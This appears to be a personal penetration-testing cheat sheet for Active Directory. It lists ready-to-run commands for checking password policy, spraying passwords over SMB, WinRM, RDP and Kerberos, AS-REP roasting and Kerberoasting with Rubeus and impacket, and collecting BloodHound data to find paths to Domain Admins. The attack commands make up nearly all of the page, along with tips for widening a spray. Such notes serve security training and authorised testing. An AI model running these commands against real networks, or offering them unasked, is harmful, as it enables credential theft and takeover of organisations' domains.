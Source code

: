 
### Password Spraying
#### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```
#### Spray
```
#Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

#Linux
crackmapexec smb <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec smb <target_ips> -u <user_list> -H <hash> -d <domain> --continue-on-success
crackmapexec winrm <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec rdp <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
./kerbrute passwordspray -d lab.ropnop.com domain_users.txt Password123

#DON'T FORGET TO USE --local-auth to try local password spray.
#Don't FORGET TO CHECK THE SHARES AS WELL.
```
#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile hashes-asrep
impacket-GetNPUsers <domain_name>/<domain_user> -request -format hashcat -outputfile hashes-asrep -dc-ip <ip>
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs <domain_name>/<domain_user> -outputfile hashes-kerb -dc-ip <ip>
```

### BloodHound
#### Data collection
```
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\<user>\Desktop\ -OutputPrefix "results"
```
#### Data Analysis

```
sudo neo4j start
sudo bloodhound
http://localhost:7474 (neo4j:kali)
```
- Import zipped data.
- Check Shortest Paths Analysis.
- Right click objects that are owned. For example users and client machines.
- Then choose "Shortest Path to Domain Admins from owned Principals".